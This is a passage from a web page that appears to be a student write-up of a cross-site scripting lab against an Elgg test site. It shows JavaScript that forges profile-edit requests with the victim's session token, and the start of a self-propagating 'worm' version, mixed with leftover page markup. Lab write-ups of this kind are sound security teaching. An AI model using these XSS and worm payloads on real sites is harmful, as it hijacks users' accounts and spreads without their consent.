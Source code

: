     //Construct the content of your url.
    var sendurl = &quot;http://www.xsslabelgg.com/action/profile/edit&quot;;
    var content = userName + guid + ts + token + description;
    var samyGuid = 47;
    if (elgg.session.user.guid != samyGuid) {
      //Create and send Ajax request to modify profile
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open(&quot;POST&quot;, sendurl, true);
      Ajax.setRequestHeader(&quot;Host&quot;, &quot;www.xsslabelgg.com&quot;);
      Ajax.setRequestHeader(
        &quot;Content-Type&quot;,
        &quot;application/x-www-form-urlencoded&quot;
      );
      Ajax.send(content);
    }
  };
</script>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<p dir="auto">Then, visit Samy's profile using Boby's account. Boby's profile is modified at once:</p>
<p>Screenshoot in cross-site-scripting Folder</p>
<h1 dir="auto"><a id="user-content-task-6" class="anchor" aria-hidden="true" href="#task-6"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>Task 6</h1>
<p dir="auto">To make the code in <a href="#task-5">Task 5</a> self-propogating:</p>
<h2 dir="auto"><a id="user-content-dom-approach" class="anchor" aria-hidden="true" href="#dom-approach"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>DOM Approach</h2>
<p dir="auto">Do some subtle modification based on the code in <a href="#task-5">Task 5</a>:</p>
<div class="highlight highlight-text-html-basic position-relative overflow-auto"><pre><span class="pl-kos">&lt;</span><span class="pl-ent">script</span> <span class="pl-c1">type</span>="<span class="pl-s">text/javascript</span>" <span class="pl-c1">id</span>="<span class="pl-s">worm</span>"<span class="pl-kos">&gt;</span>
  <span class="pl-smi">window</span><span class="pl-kos">.</span><span class="pl-en">onload</span> <span class="pl-c1">=</span> <span class="pl-k">function</span> <span class="pl-kos">(</span><span class="pl-kos">)</span> <span class="pl-kos">{</span>
    <span class="pl-k">var</span> <span class="pl-s1">headerTag</span> <span class="pl-c1">=</span> <span class="pl-s">'&lt;script id="worm" type="text/javascript"&gt;'</span><span class="pl-kos">;</span>